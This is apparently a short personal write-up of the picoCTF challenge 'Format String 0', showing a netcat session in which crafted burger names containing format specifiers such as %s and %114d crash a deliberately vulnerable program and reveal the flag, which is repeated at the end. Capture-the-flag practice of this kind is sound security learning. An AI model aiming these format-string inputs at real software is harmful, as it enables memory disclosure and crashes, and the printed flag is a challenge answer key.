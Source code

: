 ### Format String 0 
Description \
Can you use your knowledge of format strings to make the customers happy? \
Download the binary here. \
Download the source here. \
Connect with the challenge instance here: \
`nc mimas.picoctf.net 50051`

```
momo1126-picoctf@webshell:~$ nc mimas.picoctf.net 49987
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
#### Note: UNDERSTAND FORMAT STRING, REDO!!!!
https://medium.com/@erichdryn/format-string-0-picoctf-writeup-9e8af9e163ff

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
